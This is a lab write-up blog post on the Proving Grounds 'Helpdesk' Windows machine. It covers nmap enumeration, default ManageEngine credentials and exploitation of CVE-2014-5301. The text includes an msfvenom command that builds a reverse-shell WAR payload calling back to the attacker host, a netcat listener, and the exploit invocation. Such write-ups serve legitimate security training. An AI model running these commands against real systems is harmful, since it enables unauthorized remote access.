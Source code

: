 ```yaml
---
layout: single
title: Helpdesk - Proving grounds Practice
date: 2023-06-15
classes: wide
header:
  teaser: /assets/images/windows.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - windows
  - easy
---
```


## Windows

![](/assets/images/windows.png)

This blog post is a writeup of the Helpdesk machine from Proving grounds practice.

### Summary
------------------
- ManageEngine allows us to access with the default credentials.
- Having a valid user, we are able to exploit CVE-2014-5301 and get a reverse shell as a privileged user.

### Detailed steps
------------------

### Enumeration

I started just enumerating the open ports with:
```
nmap -Pn -p- 192.168.152.43
```
![nmap1](\assets\images\pg-practice-helpdesk\1.JPG)

Knowing which ports are open, I executed an agressive nmap with:
```
nmap -A -Pn --script=vuln 192.168.152.43 -p 135,139,445,3389,8080 -o nmapa.txt
```
![nmap2](\assets\images\pg-practice-helpdesk\2_2.JPG)

As we can see in the last picture, there is a web server in 8080 port.
By accessing the website I was able to see a ManageEngine ServiceDesk Plus `7.6.0`

![manageengine](\assets\images\pg-practice-helpdesk\3.JPG)

### Explotation

This ManageEngine version is vulnerable to `CVE-2014-5301`

```
Vulnerability:  CVE-2014-5301
System Vulnerable: ManageEngine 
Vulnerability Explanation: Directory traversal vulnerability in ServiceDesk Plus MSP v5 to v9.0 v9030; AssetExplorer v4 to v6.1; SupportCenter v5 to v7.9; IT360 v8 to v10.4.  
Severity: high
```

In order to gain access I downloaded a python exploit from: https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py
 - To exploit this vulnerability you need to have a valid username and password so I decided to search the default credentials used by ManageEngine.

	Google search:
	![manageengine2](\assets\images\pg-practice-helpdesk\8.JPG)

	To my surprise, it worked
	![manageengine3](\assets\images\pg-practice-helpdesk\9.JPG)

	![manageengine5](\assets\images\pg-practice-helpdesk\10.JPG)

 - Now, having our valid credentials, it is necessary to create the payload in a WAR file with `mfsvenom`:
	```
	msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.231 LPORT=5555 -f war > shell.war
	```
	![manageengine6](\assets\images\pg-practice-helpdesk\7.JPG)
	
 - Before executing the payload I opened a netcat listener on 5555 port.
 
	![manageengine7](\assets\images\pg-practice-helpdesk\6.JPG)
	
 - The last step was run the exploit indicating the target, a valid credentials and our WAR file:
 ```
 ./exploit.py 192.168.152.43 8080 administrator administrator shell.war
 ```
 ![manageengine8](\assets\images\pg-practice-helpdesk\11.JPG)
 

After running the exploit I was able to catch the reverse shell as a high privileged user.
![manageengine9](\assets\images\pg-practice-helpdesk\12.JPG)

Being NT Authority\System I could find the root flag in Administrator's desktop
![flag1](\assets\images\pg-practice-helpdesk\25.JPG)

![flag2](\assets\images\pg-practice-helpdesk\rootf.JPG)